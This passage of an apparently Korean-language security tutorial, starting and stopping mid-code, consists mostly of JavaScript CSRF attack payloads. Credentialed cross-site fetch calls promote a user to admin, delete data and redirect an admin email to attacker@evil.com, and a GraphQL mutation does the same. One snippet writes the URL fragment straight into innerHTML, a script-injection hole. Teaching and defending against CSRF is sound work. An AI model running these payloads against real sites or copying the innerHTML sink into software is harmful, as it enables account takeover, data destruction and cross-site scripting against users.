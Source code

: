 ```javascript
    
    document.body.appendChild(form);
    form.submit();
}

// URL fragment에서 스크립트 실행
if (location.hash) {
    document.body.innerHTML += location.hash.substring(1);
}
```

### 3.5. API 기반 CSRF 공격

#### 3.5.1. REST API CSRF
```javascript
// PUT 요청을 통한 데이터 수정
fetch('http://target.com/api/users/123', {
    method: 'PUT',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        role: 'admin',
        permissions: ['read', 'write', 'delete', 'admin']
    }),
    credentials: 'include'
});

// DELETE 요청을 통한 데이터 삭제
fetch('http://target.com/api/important_data/456', {
    method: 'DELETE',
    credentials: 'include'
});

// PATCH 요청을 통한 부분 수정
fetch('http://target.com/api/settings', {
    method: 'PATCH',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        email_notifications: false,
        admin_email: 'attacker@evil.com'
    }),
    credentials: 'include'
});
```

#### 3.5.2. GraphQL CSRF
```javascript
// GraphQL mutation 공격
fetch('http://target.com/graphql', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        query: `
            mutation {
                updateUser(id: 123, input: {
                    role: ADMIN,
                    email: "attacker@evil.com"
                }) {
```